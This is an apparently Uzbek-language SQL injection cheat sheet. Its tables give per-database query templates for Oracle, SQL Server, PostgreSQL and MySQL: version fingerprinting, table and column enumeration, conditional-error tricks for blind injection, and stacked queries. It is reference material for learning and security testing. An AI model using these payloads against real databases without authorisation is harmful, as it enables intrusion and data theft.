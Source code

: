 | Oracle     | <p><code>SELECT banner FROM v$version</code><br><code>SELECT version FROM v$instance</code><br></p> |
| ---------- | --------------------------------------------------------------------------------------------------- |
| Microsoft  | `SELECT @@version`                                                                                  |
| PostgreSQL | `SELECT version()`                                                                                  |
| MySQL      | `SELECT @@version`                                                                                  |

### <mark style="color:yellow;">Database kontentlari</mark> <a href="#database-contents" id="database-contents"></a>

Siz ma'lumotlar bazasida mavjud bo'lgan jadvallarni va jadvallar tarkibidagi ustunlarni ro'yxatlashingiz mumkin.

| Oracle     | <p><code>SELECT * FROM all_tables</code><br><code>SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'</code></p>                               |
| ---------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Microsoft  | <p><code>SELECT * FROM information_schema.tables</code><br><code>SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'</code><br></p> |
| PostgreSQL | <p><code>SELECT * FROM information_schema.tables</code><br><code>SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'</code><br></p> |
| MySQL      | <p><code>SELECT * FROM information_schema.tables</code><br><code>SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'</code><br></p> |

### <mark style="color:yellow;">Conditional  errors (Shartli xatoliklar)</mark> <a href="#conditional-errors" id="conditional-errors"></a>

Siz bitta Boolen holatini sinab ko'rishingiz mumkin va agar holat to'g'ri bo'lsa, ma'lumotlar bazasi xatosini o'zgartirishingiz mumkin.

| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual`      |
| ---------- | --------------------------------------------------------------------------------------- |
| Microsoft  | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`                         |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END`           |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

### <mark style="color:yellow;">Batched (yoki stacked) so'rovlar</mark> <a href="#batched-or-stacked-queries" id="batched-or-stacked-queries"></a>

Siz ketma-ket bir nechta so'rovlarni bajarish uchun bir nechta so'rovlarni bajarishingiz mumkin. E'tibor bering, keyingi so'rovlar bajarilsa ham, natijalar applicationga qaytarilmaydi. Demak, ushbu usul birinchi navbatda **Blind** zaifligi, shartli xato yoki vaqtni kechiktirishni boshlash uchun ikkinchi so'rovdan foydalanishingiz mumkin.

| Oracle     | `Does not support batched queries.` |
| ---------- | ----------------------------------- |
| Microsoft  | `QUERY-1-HERE; QUERY-2-HERE`        |
| PostgreSQL | `QUERY-1-HERE; QUERY-2-HERE`        |
| MySQL      | `QUERY-1-HERE; QUERY-2-HERE`        |

